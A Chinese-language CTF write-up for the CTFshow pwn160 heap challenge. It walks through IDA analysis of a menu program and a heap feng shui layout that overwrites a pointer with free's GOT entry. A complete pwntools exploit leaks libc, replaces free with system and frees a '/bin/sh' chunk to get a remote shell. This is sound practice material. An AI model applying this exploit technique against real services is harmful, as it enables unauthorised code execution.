 ```yaml
---
title: CTFshow pwn160
tags:
    - pwn
    - 堆风水
categories:
    - 做题笔记
cover: /img/治不开心药.png
---
```

# CTFshow pwn160(堆风水)

## ida分析 

### main函数分析
![1741933551272.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d3cbefdff92.png)
1.简单的菜单题，通过menu，简单把函数名称修改，做一个简单的逆向

### add函数分析            
![1741933652418.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d3cc54920c5.png)
1.通过add函数，要对堆块的储存结构有清晰的认知，这会影响甚至是决定我们攻击的手法。
2.可以看到每次add会申清两个堆块，一个大小由我们控制，一个大小固定为0x80。并且，大小自由的堆块的指针会被保存在，大小固定的那个堆块内。而大小固定的那个堆块的指针会被保存在heaplist(逆向重命名过)上。
3.input第一个参数是作为指针，所以他会写在v3上，位置是s指针后面。
4.然后这里调用edit去编辑堆块内容

### edit函数分析
![1741934774792.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d3d0bb5c4d7.png)
1.看到这里对输入字节大小的检查，就可以联想到堆风水。是通过堆块的位置加上输入字节的大小，与另一块堆块的地址大小比较来判断。如果这两个堆块之间，有其他堆块，那么我们就可以对中间的堆块为所欲为了。

### show函数分析
![1741935092305.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d3d1f5186f5.png)
1.唯一的作用就是泄露libc

### delete函数分析
![1741935146434.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d3d22ae54bb.png)
1.没有uaf，不能直接利用

### gdb分析
![1741934513485.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d3cfb254f83.png)
1.通过gdb，可以对堆块的内容，结构有更清晰的观察和了解

## 构造思路
1.首先确定攻击的手法——堆风水.也就是要造成我们申清的堆块在最上方，add自动申清的堆块在最下方。此时我们就可以控制中间的堆块了.而0x80大小，会被放入unsortedbin中，满足先进先出的规则。那么我们先申请几个堆块，小于0x80。free掉堆块0，再add一个0x80大小的堆块，它会在从unsortedbin中取出之前的堆块给我们，同时从topchunk中分配出另一块。至此，一块低地址，一块高地址的堆块构造完成。
2.第二部对照gdb，把对应位置出的内容修改成free_got就可以通过show泄露libc.然后再通过edit修改got表内容。
3.最后delete一块内容为`/bin/sh\x00`的堆块就可以打通了.

## exp
### 比较复杂的解法
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
mode=1
url='pwn.challenge.ctf.show'
port=28252
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,name,lenth,content):
    io.recvuntil("Action: ")
    io.sendline("0")
    io.recvuntil("size of description: ")
    io.sendline(str(size))
    io.recvuntil("name: ")
    io.sendline(name)
    io.recvuntil("text length: ")
    io.sendline(str(lenth))
    io.recvuntil("text: ")
    io.sendline(content)

def delete(idx):
    io.recvuntil("Action: ")
    io.sendline("1")
    io.recvuntil("")
    io.sendline(str(idx))

def show(idx):
    io.recvuntil("Action: ")
    io.sendline("2")
    io.recvuntil("")
    io.sendline(str(idx))

def edit(idx,lenth,content):
    io.recvuntil("Action: ")
    io.sendline("3")
    io.recvuntil("index: ")
    io.sendline(str(idx))
    io.recvuntil("text length: ")
    io.sendline(str(lenth))
    io.recvuntil("text: ")
    io.sendline(content)

add(0x10,b"a",0x8,b'hhhh')  #0
add(0x20,b"b",0x8,b'hhhh')  #1
add(0x20,b"c",0x8,b'hhhh')  #2
add(0x20,b"d",0x10,b'/bin/sh\x00')  #3
delete(2)  
delete(0)

add(0x10,b"d",0x40,b'aaaa') #4
add(0x80,b'e',0x8,b'bbbb')  #5
free_got=elf.got['free']
payload=p32(0)*5+p32(0x89)
payload+=p32(0)*16
payload+=p32(0x88)+p32(0x28)
payload+=p32(0)*9+p32(0x89)
payload+=p32(0)*4
payload+=p32(0x88)+p64(0x29)
payload+=p32(0)*8+p32(0x89)
payload+=p32(free_got)
edit(4,len(payload),payload)
show(1)
io.recvuntil("description: ")
free=u32(io.recv(4))
log.success('free-{}'.format(hex(free)))
#gdb.attach(io)
libc=LibcSearcher("free",free)
libcbase=free-libc.dump('free')
system=libcbase+libc.dump('system')
edit(1,0x4,p32(system))
#gdb.attach(io)
delete(3)
io.interactive()
```
现在看来，delete(2)似乎有点多余了